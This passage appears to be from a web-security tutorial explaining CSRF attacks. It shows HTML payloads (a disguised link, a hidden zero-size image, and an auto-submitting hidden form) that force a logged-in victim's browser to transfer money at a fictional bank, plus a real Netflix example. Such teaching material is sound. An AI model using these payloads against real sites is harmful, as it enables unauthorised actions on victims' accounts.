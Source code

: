 These are the common techniques he can use:
  * Embed the exploit URL into HTML content and send it to Tom through email
  * Planting an exploit URL or script on pages Tom often visits while logged into the online banking application

The malicious URL could be disguised as a normal link, instigating Tom to click it:

```
<a href="http://bank.com/onlinetransfer?account=JAMES&amount=100000">Click here now!</a>
```
Or as a fake image:

```
<img src="http://bank.com/onlinetransfer?account=JAMES&amount=100000" width="0" height="0" border="0">
```
If this image tag were included in the email, Tom wouldn't see anything. However, the browser *will still* submit the request to bank.com without any visual indication that the transfer has taken place.

One of the real time example occured with [Netflix in 2006](https://seclists.org/fulldisclosure/2006/Oct/316); if you used the "Remember Me" functionality and came across any web page that the had
```
<img src="http://www.netflix.com/AddToQueue?movieid=70011204" width="1" height="1" border="0">
```
embedding in it, a copy of "SpongeBob Squarepants" would be added to your Netflix queue

Another real life examples of CSRF attack on an application using GET was a [uTorrent exploit](https://www.ghacks.net/2008/01/17/dos-vulnerability-in-utorrent-and-bittorrent/) in 2008 that was used on a mass scale to download malware.

## CSRF attack using HTTP POST Request

The only difference between GET and POST attacks is how the attack is being executed by the victim. Let's assume the bank now uses POST and the vulnerable request looks like this:

```
POST http://bank.com/onlinetransfer HTTP/1.1

account=Puneeth&amount=10000

```
Such a request cannot be delivered using standard A or img tags, but can be delivered using a *form* tag:

```
<form action="<nowiki>http://bank.com/onlinetransfer</nowiki>" method="POST">
<input type="hidden" name="account" value="JAMES"/>
<input type="hidden" name="amount" value="100000"/>
<input type="submit" value="View my pictures"/>
</form>
```
This form will require the user to click on the submit button, but this can be also executed automatically using JavaScript:

```
<body onload="document.forms[0].submit()">
   <form action="http://bank.com/onlinetransfer" method="POST">
     <input type="hidden" name="account" value="JAMES"/>
     <input type="hidden" name="amount" value="$10000"/>
     <input type="submit" value="Click here now!"/>
   </form>
 </body>
 
```
## Other HTTP Methods
